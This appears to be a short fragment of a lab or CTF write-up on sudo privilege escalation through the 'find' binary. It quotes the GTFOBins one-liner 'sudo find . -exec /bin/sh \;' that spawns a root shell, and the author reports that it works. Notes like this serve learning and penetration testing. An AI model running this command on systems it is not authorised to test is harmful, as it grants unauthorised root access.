 # emb66: find the binary and then execute it. 'find -exec'

![So I need to execute find](<../.gitbook/assets/image (18) (1).png>)



### Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

*   ```
    sudo find . -exec /bin/sh \;
    ```

    from the GTFO bin site. Here {/bin/sh} was executed.

Then probably, would it be like this?

![find PATH -option -exec {} \\;](<../.gitbook/assets/image (98).png>)

![So it works as shown in GTFO bin](<../.gitbook/assets/image (7) (1).png>)
